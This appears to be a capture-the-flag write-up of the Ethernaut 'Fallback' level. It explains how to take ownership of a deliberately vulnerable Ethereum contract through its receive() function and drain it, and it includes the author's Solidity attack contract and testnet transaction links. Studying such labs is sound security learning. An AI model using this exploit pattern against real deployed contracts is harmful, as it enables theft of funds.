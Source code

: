 Level 1
==========================================================================================================================================

Deployment transaction: https://goerli.etherscan.io/tx/0x3518fe01dfc4ee56725311f18f048eab90f7229a9375eb289335e5cebf6a7f86

Submission transaction: https://goerli.etherscan.io/tx/0xccc14269f191440a72a09ba47a71a7c4e77f6861f257f279516c8690231c5a49

-------
This challenge's task is to aquire contract ownership then withdraw all funds from it. 
The target contract does have a receive() function, an alternative to fallback functions that only gets executed when a contract receives Ether. 
To access the receive function, though, first we need to contribute to the contract. We do this by transfering any amount smaller than 0.001 Ether.
After that, we can push the attack, by sending any amount of ether. I opted to use the call low-level function, as it returns booleans upon succesfull transfers.
If it's successful, we go forward to the withdraw function call and finish the script.

#### Exploit contract:

```
    interface Fallback{
    function contribute() external payable;
    function getContribution() external view returns(uint);
    function withdraw () external;
}

contract fallbackAttack {
    address private target;

    constructor (address _target)  payable {
        target = _target;
    }

    function contribute() payable external {
        Fallback(target).contribute{value:  msg.value}();
        
    }

    function claimOwnership() payable external {
        (bool sent, bytes memory data) = target.call{value:  msg.value}("");
        require (sent, "E1");
  
        
    }

    function withdraw() payable external {
        Fallback(target).withdraw();
        
    }
}

```
[Claim ownership tx](https://goerli.etherscan.io/tx/0xecfc69941b1241e7bb967b968b6ae03808826c38e9c1e38b705553ead4078687)

I spent over an hour debugging only to find out I spotted the receive function at the target's contract, but didn't actually implement any fallback function of my own. Lesson learned hahaha.


